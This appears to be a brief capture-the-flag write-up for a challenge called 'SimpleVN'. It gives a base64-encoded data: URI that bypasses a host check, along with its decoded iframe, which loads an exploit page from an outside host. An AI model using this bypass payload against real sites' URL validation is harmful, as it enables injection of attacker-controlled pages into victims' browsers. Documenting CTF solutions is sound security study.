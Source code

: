 # SimpleVN

- By pass host check with data scheme.
- `data:text/html;base64,PGlmcmFtZSBzdHlsZT0nd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCU7JyBzcmM9J2h0dHA6Ly94LmltanVuby5jb20vZXhwbG9pdC5odG1sJz48L2lmcmFtZT4=`
- `<iframe style='width:100%; height:100%;' src='http://x.imjuno.com/exploit.html'></iframe>`


![flag.png](flag.png)
